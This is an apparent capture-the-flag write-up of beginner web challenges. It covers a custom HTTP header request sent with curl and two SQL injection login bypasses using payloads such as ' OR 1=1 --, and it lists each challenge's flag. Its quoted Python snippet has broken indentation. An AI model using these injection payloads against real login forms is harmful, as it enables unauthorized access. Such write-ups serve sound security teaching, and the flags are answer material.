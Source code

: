 # aupCTF writeups for WEB 
## Starter - 100pts

![image](https://github.com/zer00d4y/writeups/assets/128820441/698c00f7-7c4e-4f4a-a183-ae622a3a6003)
![image](https://github.com/zer00d4y/writeups/assets/128820441/e2a318b7-e144-4784-87bf-28a1d5378f6d)
![image](https://github.com/zer00d4y/writeups/assets/128820441/a557168e-f0a9-4f4a-b005-8c5ac01a67a2)

FLAG: `aupCTF{w45n't-th47-h4rd-r1gh7}`

## Header - 100pts

    def headar_easy(request):
        if request.META.get('HTTP_GETFLAG') == 'yes':
        context = {
            'flag': '[REDACTED]',
        }
        
        return render(request, 'aa/flag.html', context)
    
    return render(request, 'aa/index.html')

┌──(kali㉿kali)-[~]

└─$  `curl -H "GETFLAG: yes" https://challs.aupctf.live/header/`

aupCTF{cust0m-he4d3r-r3qu3st}

FLAG: `aupCTF{cust0m-he4d3r-r3qu3st}`

## SQLi - 1 - 100pts

Simple SQL-injection, we need use basic payload: `' OR 1=1 --` we are able to get in.

![image](https://github.com/zer00d4y/writeups/assets/128820441/ffc1ba72-d930-4319-9c9e-e7543f2a3e5f)

FLAG: `aupCTF{3a5y-sql-1nj3cti0n}`

## SQLi - 2 - 200pts

Also SQL injection, we need to use this payload `-- or '1'='1'`

FLAG: `aupCTF{m3d1um-sql-1nj3cti0n}`

